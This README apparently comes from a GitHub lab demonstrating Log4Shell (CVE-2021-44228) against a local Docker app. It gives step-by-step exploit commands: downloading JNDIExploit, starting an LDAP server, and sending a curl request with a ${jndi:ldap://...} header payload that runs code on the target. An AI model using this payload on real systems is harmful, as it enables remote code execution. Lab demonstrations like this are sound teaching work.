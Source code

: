 # Log4Shell

This repository is for Log4j 2021 (CVE-2021-44228) Vulnerability demonstration and mitigation.

## What is Log4Shell?

The CVE-2021-44228 / Log4Shell vulnerability consists of injecting vulnerable software with a malicious payload, which will ask Log4J to obtain a value from a third-party source, with JNDI and through the LDAP protocol. ... The imported data can be code, which will be executed by Log4J on the system.

## Proof of concept

1. We run a Spring Boot web application vulnerable to CVE-2021-44228 in Docker, nicknamed Log4Shell by @christophetd.
It uses Log4j 2.14.1 (through spring-boot-starter-log4j2 2.6.1) and the JDK 1.8.0_181.
`docker run --name vulnerable-app --rm -p 8080:8080 ghcr.io/christophetd/log4shell-vulnerable-app`
![Log4Shell_1](./doc/img/Log4Shell_1.png)
![Log4Shell_2](./doc/img/Log4Shell_2.png)

2. We download the JNDI Exploit for Log4Shell from web archive in this case, but you can download it wherever it's available.
`wget https://web.archive.org/web/20211211031401/https://github.com/feihong-cs/JNDIExploit/releases/download/v1.2/JNDIExploit.v1.2.zip`
![Log4Shell_3](./doc/img/Log4Shell_3.png)
![Log4Shell_4](./doc/img/Log4Shell_4.png)

3. We obtain the IP address of our machine who's running the docker of the Log4Shell application.
`ifconfig`
![Log4Shell_IP](./doc/img/Log4Shell_IP.png)

4. We unzip the zip with the JNDI Exploit for Log4Shell, so we obtain the JAR and we execute it putting our IP obtained in step 3.
```sh
unzip JNDIExploit.v1.2.zip
java -jar JNDIExploit-1.2-SNAPSHOT.jar -i your-private-ip -p 8888
```
![Log4Shell_5](./doc/img/Log4Shell_5.png)

5. Then, trigger the exploit using:
`curl 127.0.0.1:8080 -H 'X-Api-Version: ${jndi:ldap://your-private-ip:1389/Basic/Command/Base64/dG91Y2ggL3RtcC9wd25lZAo=}'`
![Log4Shell_6](./doc/img/Log4Shell_6.png)

* We see we have a JNDI connection to our machine, and we can see the code executed by Log4J.
![Log4Shell_7](./doc/img/Log4Shell_7Result.png)

6. To confirm that the code execution was successful, notice that the file /tmp/pwned.txt was created in the container running the vulnerable application.
`docker exec vulnerable-app ls /tmp`
![Log4Shell_8](./doc/img/Log4Shell_8Result.png)

## Mitigation

Video of how to mitigate the Log4Shell vulnerability in Windows and Linux: [MITIGATION](https://youtu.be/dBlfS-wFyqg)
#### Mitigation in Linux (example picture)

![MITIGATION](./doc/img/Log4Shell_Mitigation_Linux.png)

## Author

Feryael Justice 2022
